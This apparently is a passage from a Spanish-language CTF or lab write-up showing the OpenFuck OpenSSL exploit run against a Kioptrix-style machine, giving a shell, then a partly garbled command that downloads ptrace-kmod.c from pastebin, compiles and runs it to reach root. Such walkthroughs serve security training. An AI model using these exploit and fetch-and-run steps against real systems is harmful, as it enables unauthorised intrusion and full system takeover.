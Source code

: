 Ya copilado lo ejecutamos con las indicaciones que nos dieron.

```bash
(kali㉿kali)-[~/Hackermentor/Kio/OpenFuck]
└─$ ./Exploit 0x6b 168.0.2.4 443 -c 40


*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8030
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--02:29:10--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

02:29:11 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
/usr/bin/ld: cannot open output file p: Permission denied
collect2: ld returned 1 exit status
whoami
root


```

Y vemos que estamos dentro de la maquina como usuarios root le damos un poco de tratamiento la termina con `bash -i.`

```
[root@kio-kid tmp]# whoami
whoami
root

```
